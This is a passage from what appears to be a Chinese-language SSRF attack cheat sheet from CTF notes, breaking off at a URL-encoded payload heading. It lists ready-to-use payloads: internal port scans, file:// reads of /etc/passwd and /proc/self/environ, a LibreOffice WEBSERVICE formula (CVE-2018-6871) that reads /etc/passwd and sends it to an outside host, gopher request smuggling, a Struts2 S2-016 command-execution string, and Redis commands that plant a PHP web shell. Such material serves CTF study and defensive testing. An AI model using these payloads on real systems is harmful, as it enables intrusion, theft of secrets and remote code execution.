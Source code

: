 ## XSPA

- port scan
  - `127.0.0.1:80` => OK
  - `127.0.0.1:87` => Timeout
  - `127.0.0.1:9487` => Timeout

## 302 Redirect Bypass

- 用來繞過protocol限制
- 第一次SSRF，網站有做檢查、過濾
- 302跳轉做第二次SSRF沒有檢查

## 本地利用

- file protocol
  - `file:///etc/passwd`
  - `file:///proc/self/cmdline`
    - 看他在跑啥
  - `file:///proc/self/exe`
    - dump binary
  - `file:///proc/self/environ`
    - 讀環境變數
  - `curl file://google.com/etc/passwd`
    - 新版已修掉
    - 實測libcurl 7.47可work
  - Java原生可列目錄
  - Perl/Ruby open Command Injection

- Libreoffice CVE-2018-6871
  - 可以使用`WEBSERVICE`讀本地檔案，e.g.`/etc/passwd`
  - 讀出來可以用http往外傳
    - `=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/&quot;&amp;COM.MICROSOFT.WEBSERVICE(&quot;/etc/passwd&quot;))`
    - e.g. DCTF 2018 final, FBCTF 2019
  - Example Payload: [Link](https://github.com/w181496/CTF/blob/master/fbctf2019/pdfme/flag.fods)

## 遠程利用
- Gopher
  - 可偽造任意TCP，hen蚌
  - `gopher://127.0.0.1:5278/xGG%0d%0aININDER`
- 常見例子
  - Struts2
    - S2-016
      - `action:`、`redirect:`、`redirectAction:`
      - `index.do?redirect:${new java.lang.ProcessBuilder('id').start()}`
  - ElasticSearch
    - default port: `9200`
  - Redis
    - default port: `6379`
    - 用SAVE寫shell
    ```
      FLUSHALL
      SET myshell "<?php system($_GET['cmd']) ?>"
      CONFIG SET DIR /www
      CONFIG SET DBFILENAME shell.php
      SAVE
      QUIT
    ```
    - URLencoded payload: